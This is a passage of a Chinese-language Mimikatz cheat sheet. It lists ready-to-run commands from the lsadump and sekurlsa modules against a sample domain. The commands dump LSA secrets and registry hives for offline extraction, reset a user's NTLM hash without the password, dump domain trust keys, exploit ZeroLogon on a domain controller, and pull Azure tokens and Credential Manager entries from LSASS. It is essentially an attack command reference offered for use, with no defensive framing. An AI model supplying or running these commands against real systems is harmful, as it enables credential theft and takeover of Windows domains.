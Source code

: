 ```
## secrets
可以用来从注册表中转储LSA的secrets。它检索SysKey来解密Secrets条目
```
mimikatz # lsadump::secrets
```

**离线转存**

cmd下
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\security security.hive
```

执行离线转存
```
mimikatz # lsadump::secrets /system:system.hive /sam:security.hive
```

## setntlm
可以用来在不知道用户当前密码的情况下执行密码重置。在活动目录访问控制（ACL）滥用情况下，它可能很有用
```
mimikatz # lsadump::setntlm /user:optimus /password:VeryStrongPass1! /server:dc.hacklab.local
```

## trust

dump出域和林的信任秘钥
```
mimikatz # lsadump::trust /patch
```

## zerologon
检测并利用ZeroLogon漏洞
```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$
```

# sekurlsa模块
这个模块可能是Mimikatz用户中使用最多的模块。它从LSA的子系统服务(LSASS)中检索明文密码、kerberos票、pin码等

## backupkeys

列出备份秘钥
```
mimikatz # sekurlsa::backupkeys
```

## bootkey
设置SecureKernel Boot Key并尝试解密LSA Isolated凭证
```
mimikatz # sekurlsa::bootkey
```

## cloudap
列出 Azure (Primary Refresh Token) 凭据

```
mimikatz # sekurlsa::cloudap
```

## credman
通过针对微软本地安全授权服务器DLL（lsasrv.dll）列出凭证管理器。

```
mimikatz # sekurlsa::credman
```
```